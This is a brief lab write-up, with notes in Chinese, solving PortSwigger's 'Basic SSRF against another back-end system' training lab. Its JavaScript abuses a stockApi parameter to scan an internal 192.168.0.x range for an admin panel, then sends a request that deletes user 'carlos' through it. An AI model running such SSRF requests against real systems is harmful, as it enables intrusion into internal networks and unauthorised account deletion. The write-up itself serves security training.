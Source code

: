 ## Lab: Basic SSRF against another back-end system

| Dimension | Description                                                                           |
| --------- | ------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#ssrf-attacks-against-other-back-end-systems |
| Lab       | https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system       |

寫一隻 for 迴圈來掃描

```js
let shouldBreak = false;
for (let i = 1; i <= 255; i++) {
  if (shouldBreak) break;
  setTimeout(
    () => {
      if (shouldBreak) return;
      fetch(
        "https://0ab200a80355f0ce80a4712e008c00b9.web-security-academy.net/product/stock",
        {
          headers: {
            "content-type": "application/x-www-form-urlencoded",
          },
          body: `stockApi=${encodeURIComponent(`http://192.168.0.${i}:8080/admin`)}`,
          method: "POST",
          mode: "cors",
          credentials: "include",
        },
      ).then((res) => {
        if (res.status === 200) {
          shouldBreak = true;
          console.log(i);
        }
      });
    },
    (i - 1) * 500,
  );
}
```

在 138 的時候停下

```js
fetch(
  "https://0ab200a80355f0ce80a4712e008c00b9.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `stockApi=${encodeURIComponent(`http://192.168.0.138:8080/admin/delete?username=carlos`)}`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```
